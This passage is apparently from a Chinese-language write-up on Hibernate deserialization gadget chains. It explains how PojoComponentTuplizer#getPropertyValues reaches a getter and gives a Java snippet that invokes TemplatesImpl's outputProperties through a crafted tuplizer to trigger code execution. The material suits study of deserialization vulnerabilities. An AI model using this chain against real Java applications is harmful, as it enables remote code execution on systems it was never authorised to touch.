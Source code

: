 ![image-20211113160817968](img/image-20211113160817968.png)`org.hibernate.tuple.component.PojoComponentTuplizer#getPropertyValues`方法中调用了`super.getPropertyValues(component)`

![image-20211113161141272](img/image-20211113161141272.png)

现在的payload变为:

```java
        TemplatesImpl evilObj=SerializeUtil.generateTemplatesImpl();
        Getter evil=new BasicPropertyAccessor().getGetter(TemplatesImpl.class,"outputProperties");  //获取BasicGetter对象
        //Getter evil=new BasicPropertyAccessor().createGetter(TemplatesImpl.class,"outputProperties");

        PojoComponentTuplizer getget = (PojoComponentTuplizer) SerializeUtil.createWithoutConstructor(Class.forName("org.hibernate.tuple.component.PojoComponentTuplizer"));
        SerializeUtil.setFieldValue(getget,"propertySpan",1);
        SerializeUtil.setFieldValue(getget,"getters",new Getter[]{evil});
        Method getPropertyValues=getget.getClass().getDeclaredMethod("getPropertyValues",Object.class);
        getPropertyValues.invoke(getget,evilObj);                                                               //执行getPropertyValues方法
```
